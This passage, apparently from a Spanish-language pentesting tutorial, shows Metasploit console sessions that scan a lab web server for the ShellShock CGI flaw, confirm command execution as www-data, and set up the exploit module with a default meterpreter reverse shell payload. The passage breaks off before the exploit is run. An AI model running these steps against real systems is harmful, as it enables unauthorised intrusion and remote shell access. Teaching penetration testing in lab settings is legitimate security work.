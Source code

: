 El primero es `auxiliary/scanner/http/apache_mod_cgi_bash_env` y nos sirve para probar si una página es vulnerable.

El segundo es `exploit/multi/http/apache_mod_cgi_bash_env_exec` y este es el que aplica el **ataque ShellShock**.

<br>

<h3 id="metas1">Usando Módulo apache_mod_cgi_bash_env para Comprobar que una Página Web es Vulnerable al Ataque ShellShock</h3>

Inicia **metasploit framework**:
```bash
msfconsole -q
msf6 >
```

Usemos el módulo `auxiliary/scanner/http/apache_mod_cgi_bash_env` y configuremoslo:
```bash
msf6 > use auxiliary/scanner/http/apache_mod_cgi_bash_env
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RHOSTS 192.168.1.200
RHOSTS => 192.168.1.200
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set RPORT 8080
RPORT => 8080
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > set TARGETURI /cgi-bin/agua.cgi
TARGETURI => /cgi-bin/agua.cgi
```

Ejecuta el módulo:
```bash
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > exploit
[+] uid=33(www-data) gid=33(www-data) groups=33(www-data)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Bastante sencillo, pero nos confirma que es vulnerable.

<br>

<h3 id="metas2">Usando Módulo apache_mod_cgi_bash_env_exec para Aplicar el Ataque ShellShock</h3>

Usemos el módulo:
```bash
msf6 auxiliary(scanner/http/apache_mod_cgi_bash_env) > use exploit/multi/http/apache_mod_cgi_bash_env_exec
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) >
```

Configurémoslo:
```bash
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RHOSTS 192.168.100.46
RHOSTS => 192.168.100.46
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > set TARGETURI /cgi-bin/agua.cgi
TARGETURI => /cgi-bin/agua.cgi
```
